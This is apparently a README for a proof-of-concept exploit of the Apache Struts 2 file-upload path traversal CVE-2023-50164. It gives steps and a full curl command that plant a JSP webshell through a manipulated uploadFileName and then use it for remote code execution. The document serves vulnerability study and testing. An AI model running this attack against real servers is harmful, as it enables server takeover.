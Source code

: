 A StrutsShell Proof of Concept (PoC)

This repository contains a proof of concept (PoC) for the StrutsShell vulnerability (CVE-2023-50164), a critical issue discovered in December 2023 and affecting Apache Struts 2 versions 2.0.0 - 2.3.37, 2.5.0 - 2.5.32 and 6.0.0 - 6.2.0. This flaw allows attackers to manipulate file paths during uploads, which can lead to saving files to arbitrary directories and, under certain circumstances, to Remote Code Execution. This PoC is provided for educational and testing purposes to help understand the vulnerability and its potential impact.

**Disclaimer**: This PoC should only be used in controlled environments for educational and defensive purposes. Unauthorized use of this PoC to exploit or cause harm is illegal and unethical.

This guide will explain how to set-up and execute a PoC, please use it responsibly.

1. Deploy  the vulnerable Java application (UploadFileWeb) locally using your preferred technology, e.g. Apache Tomcat, Jetty, Docker image, etc.
2. Place the webshell.jsp file in the directory where you will perform the PoC (upload POST request in step 3).
3. Execute the following curl command to make a POST request with the content of the webshell.jsp but modifying the parameter uploadFileName including the path traversal payload:

`curl http://localhost:8080/UploadFileWeb/upload.action -F "Upload=@./webshell-advanced.jsp" -F "uploadFileName=../../path/to/webapp/dummy.jsp" --trace-ascii /dev/stdout`

**Note**: if you are performing the attack from another machine, make sure to put the correct IP and port where the application is running. In "uploadFileName", substitute /path/to/webapp/ with the actual path where your application serves files, e.g. if you are using Tomcat in Eclipse, this will be something like: /home/user/eclipse-workspace/UploadFileWeb/src/main/webapp/ 

5. Once the upload has been completed, access the dummy.jsp (Webshell file) that should be accessible via browser: http://localhost:8080/UploadFileWeb/dummy.jsp
7. A webshell will be loaded and could be used as interactive console to control the server (RCE).

